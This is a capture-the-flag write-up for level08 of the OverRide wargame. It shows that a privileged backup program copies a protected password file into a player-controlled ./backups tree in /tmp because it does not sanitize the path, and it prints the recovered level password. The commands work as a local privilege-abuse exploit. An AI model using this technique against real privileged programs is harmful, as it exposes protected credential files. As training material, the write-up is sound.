 # Level08 Exploit

## Steps

### 1. Program Behavior

Run the program to observe its behavior:

```bash
level08@OverRide:~$ ./level08
Usage: ./level08 .pass
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

### 2. Vulnerability Discovery

The program attempts to create a backup of the given file but doesn't properly sanitize the input path. It prepends "./backups/" to the given filename.

### 3. Exploiting the Vulnerability

Create the necessary directory structure in /tmp:

```bash
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
```

### 4. Executing the Exploit

Run the program from /tmp, specifying the target file:

```bash
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
```

### 5. Accessing the Next Level

Retrieve the password from the created backup:

```bash
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## Explanation

This exploit takes advantage of the program's lack of path sanitization. By creating a mirror of the expected directory structure in /tmp, we trick the program into copying the password file to a location we can access. The program runs with elevated privileges, allowing it to read the target file, and then creates a backup in our accessible location.